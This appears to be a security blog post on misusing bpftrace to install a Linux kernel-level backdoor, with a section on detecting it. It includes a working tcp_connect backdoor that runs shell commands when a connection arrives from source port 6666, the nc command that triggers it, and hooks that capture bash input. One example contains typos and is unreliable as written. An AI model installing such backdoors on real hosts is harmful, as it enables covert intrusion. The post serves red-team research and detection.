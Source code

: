 ```yaml
---
title: "Offensive BPF - Misusing bpftrace to install a backdoor"
date: 2021-10-28T10:00:58-07:00
draft: true
tags: [
        "pentest", "red","research","bpf","blue"
    ]

twitter:
  card: "summary_large_image"
  site: "@wunderwuzzi23"
  creator: "@wunderwuzzi23"
  title: "Offensive BPF - Misusing bpftrace"
  description:  "Using eBPF in offensive security settings and mitigations"
  image: "https://embracethered.com/blog/images/2021/offensive-bpf.png"

---
```



![Offensive BPF](/blog/images/2021/offensive-bpf.png)

This post is part of a series about **Offensive BPF** that I'm working on, click the "bpf" tag to see all relevant posts.


## What is bpftrace 

`bpftrace` is a versatile tool that allows to experiment and create custom bpf programs without having to deal with too many low level things.

The [projects homepage](https://bpftrace.org/) calls it a "High-level tracing language for Linux systems", and it has a cute logo.

![Offensive BPF](/blog/images/2021/pony.png)

Its kind of a like a *bpf swiss army knife*.

### Installation

If the tool is not present follow the instructions [here](https://github.com/iovisor/bpftrace/blob/master/INSTALL.md#ubuntu-packages). 


### Basic Examples

Here are the basic hello world examples you see when learning about `bpftrace`:

* Print the output of every `bash:readline` function call:
```
bpftrace -e 'uretprobe:bash:readline { printf("%s\n:, str(retvale)) }'
```

* Print filename of all opened files and process name:
```
bpftrace -e 't:syscalls:sys_enter_open { printf("%s %s\n", comm, str(args->filename)) }
```

As you can see a bpf backdoor can gain lots of access to information - imagine hooking passwords API calls or network trafficc with such one-liners. 

### Malicious deeds using system()

Hackers always look for simple ways to run shell commands, and that features is write built into `bpftrace` also:

```
bpftrace --unsafe -e 'BEGIN { printf("Hello Offensive BPF!\n");  system("ls"); }'
```

Notice that this requires the use of the `--unsafe` command line option.

## Backdoor example using bpftrace

`bpftrace` can be used to write simple (and not so simple) bpf programs.

To get a better understanding on what is possible with bpf from offsec point of view, let's look at basic example.

Assume an adversary gained priviliged access to a host, and now leverages `bpf` to install a `TCP connect` based backdoor. 

The goal is to run some arbitrary code (like creation of a new zombie or exfil of data) whenever the `source port` of the TCP connection has the number `6666`. 

Using `bpftrace` this can be compactly written as a one-liner:

```
sudo bpftrace --include net/sock.h --unsafe -e 'BEGIN { printf("Welcome to Offensive BPF!\n"); } kprobe:tcp_connect { if ( ((struct sock *) arg0)->__sk_common.skc_num == 6666) { printf("backdoor call");     system("whoami >> /proc/1/root/tmp/malware.txt"); }  }'
```

Let's look at the parameters:

1. bpftrace needs to run as `root`, or with proper `CAP_BPF` capabilityes (hence we use `sudo` here)
2. `--include`:  using this option we can ask to have kernel header files, etc. be included, so that we can access/reference the data structures
3. `--unsafe`: This is interest, as it enables to call `system` inside the bpf program, leading to arbitrary shell command execution!
4. `-e`: the actual `bpf` program

Indeed, this compiles and install the bpf program into the kernel. Pretty amazing.

You can also put the bpf program into a file and launch it. `bpftrace` programs typically have the `.bt` file extension by the way.

```
#include <net/sock.h> 

BEGIN 
{ 
    printf("Welcome to Offensive BPF!\n"); 
} 

kprobe:tcp_connect 
{ 
    if ( ((struct sock *) arg0)->__sk_common.skc_num == 6666) 
    { 
        printf("backdoor call");
        system("whoami >> /proc/1/root/tmp/malware.txt"); 
    }
}

END
{
    printf("Exiting. Bye.\n");
}

```



`sudo bpftrace --unsafe ./backdoor.bt`


Now let's look inside the program:

1. `BEGIN` and `END`: `bpftrace` allows to define code that is run before and after via BEGIN/END code blocks. In this case we just print a welcome message.
2. We attach the bpf program to the `kprobe:tcp_connect` kernel probe. So, whenever a TCP connection happens this program will run
3. We use the `struct sock` that we imported to gain access to the source port of the connection and see if it matches `6666`
4. Only if there is a match we run a `system` command - in this case just writing to the file at `/tmp/malware.txt` 


Afterwards try to connect to the backdoored host on any port that is open with a source port of `6666`. The bpf program will be exeucted and you can observe the `/tmp/malware.txt` file being created.

For testing, netcat (`nc`) allows you to specify the source port via the `-p` option, as follows:

```
nc -vv 192.168.0.12 8888 -p 6666
```
 
Afterwards you can check the server side for the existance of the `/tmp/malware.txt` file. :)

Pretty cool.

This was a simple example to help illustrate an offensive security scenario.

Imagine web server backdoor calls, or other sophisticated C2 channels that leverage this technologies.

## Red Team Simulation: Ransomware Excercises

Interestingly, it might also be quite helpful for red teams to simulate Ransomware Attacks. The bpf program could not really  data but by just having BPF overwrite user data structures on the fly and show users scrambled information.

This is something I want to build - so stay tuned.


## Detection

There are a set of detection ideas and for blue teams it's important to get all the right telemetry aroudn BPF syscalls to be able to get insights into what happens at the BPF layer. 

### Inspecting loaded bpf programs

Loaded bpf programs can be inspected via the `bpftool`.

For instance `bpftool prog` will show you the details and you can see the malicious backdoor one-liner we used shows up:

![BPF prog output](/blog/images/2021/bpfprog.png)

### --unsafe bpftrace usage 

The usage of system() call inside the bpftrace program is pretty unusual I'd say, so looking for command line logs that contain `bpftrace --unsafe` seems a good way to catch **dangerous** bpf programs also.


## Hooking the bpf system call

A nifty attacker might actually go ahead and hook the bpf system call itself to try and hide themselves - this is something we will explore in an upcoming offensive bpf post.

Happy hacking!

Twitter: [@wunderwuzzi23](https://twitter.com/wunderwuzzi23)

# Resources

* [BPF syscall](https://www.kernel.org/doc/html/latest/userspace-api/ebpf/syscall.html)
* [BPF Documentation](https://www.kernel.org/doc/html/latest/bpf/index.html)

